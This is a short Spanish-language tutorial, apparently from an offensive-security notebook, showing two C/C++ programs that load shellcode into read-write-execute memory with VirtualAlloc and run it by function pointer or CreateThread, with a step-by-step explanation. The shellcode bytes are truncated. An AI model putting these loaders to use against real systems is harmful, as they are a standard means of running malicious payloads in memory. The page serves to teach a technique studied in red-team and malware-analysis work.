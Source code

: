 # Shellcode Execution C++

Esta es la forma más simple de ejecutar shellcode en memoria, los pasos para lograr esto son los siguientes:

1. Almacenar el shellcode en una variable
2. Crear un espacio de memoria para este shellcode
3. Ejecutarlo

```c
#include "windows.h"

int main()
{
    unsigned char shellcode[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
    "\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    ...
    "\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"
    "\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff"
    "\xd5";


    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}

```



**\*exec** es un puntero a la dirección que nos retornará **VirtualAlloc.** Esta dirección tendrá el espacio del shellcode y permisos de lectura, escritura y ejecución.&#x20;

Con **memcpy** copiaremos el contenido del shellcode hacia la dirección \*exec.

**((void(\*)()) exec)();** Esto lo que hace es, como en **exec** tenemos definido nuestro shellcode, es castear este bytearray a un function pointer con **void(\*)() exec,** se hace esto por que al llamar a esta función (sin argumentos por que así se la definió) ejecutara los bytes, ya que el compilador los interpretará como código máquina. Esto se hace con el paréntesis del final, es decir ejecutamos la función.



## Otra forma

```c
#include <Windows.h>

void main()
{
	const char shellcode[] = 
		"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
	    	"\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
	    				  ...
	    	"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"
	   	 "\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff"
	    	"\xd5";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```







{% embed url="https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc" %}

